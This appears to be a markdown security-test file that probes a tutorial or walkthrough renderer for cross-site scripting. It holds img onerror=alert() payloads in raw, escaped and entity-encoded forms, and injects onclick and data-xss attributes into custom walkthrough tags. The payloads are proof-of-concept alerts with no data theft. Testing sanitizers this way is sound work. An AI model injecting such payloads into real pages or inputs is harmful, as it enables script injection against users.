 #Header1 <img src=x1 onerror=alert(1)>
1
#Header2 \x3cimg src=x2 onerror=alert(2)\x3e
1
#Header3 \u003cimg src=x3 onerror=alert(3)\u003e
1
#Header3 &lt;img src=x3 onerror=alert(3)&gt;

a
<img src=x1 onerror=alert(1)>
b
\x3cimg src=x2 onerror=alert(2)\x3e
c
\u003cimg src=x3 onerror=alert(3)\u003e
d
&lt;img src=x3 onerror=alert(3)&gt;
e
<walkthrough-editor-spotlight spotlightId="menu-terminal-new-terminal">New Terminal</walkthrough-editor-spotlight>
f
<walkthrough-editor-spotlight xss=123 onclick=alert() spotlightId="menu-terminal-new-terminal">New Terminal 2</walkthrough-editor-spotlight>
g
<walkthrough-ICON_NAME data-xss></walkthrough-ICON_NAME>
<walkthrough-cloud-shell-icon data-xss>aasd</walkthrough-cloud-shell-icon>
<walkthrough-web-preview-icon data-xss>asd</walkthrough-web-preview-icon>
<walkthrough-cloud-shell-editor-icon data-xss></walkthrough-cloud-shell-editor-icon>
<walkthrough-nav-menu-icon data-xss></walkthrough-nav-menu-icon>
<walkthrough-notification-menu-icon data-xss></walkthrough-notification-menu-icon>
<walkthrough-pin-section-icon data-xss></walkthrough-pin-section-icon>
h
<walkthrough-tutorial-duration duration="DURATION"></walkthrough-tutorial-duration>
h1
<walkthrough-tutorial-duration duration="XSSDURATION"></walkthrough-tutorial-duration>
h2
<walkthrough-tutorial-duration duration="XSSDURATION<xss>"></walkthrough-tutorial-duration>
h3
```<img src=x1 onerror=alert(1)>
\x3cimg src=x2 onerror=alert(2)\x3e
\u003cimg src=x3 onerror=alert(3)\u003e
&lt;img src=x3 onerror=alert(3)&gt;
<walkthrough-editor-spotlight spotlightId="menu-terminal-new-terminal">New Terminal</walkthrough-editor-spotlight>
<walkthrough-editor-spotlight xss=123 onclick=alert() spotlightId="menu-terminal-new-terminal">New Terminal 2</walkthrough-editor-spotlight>
```
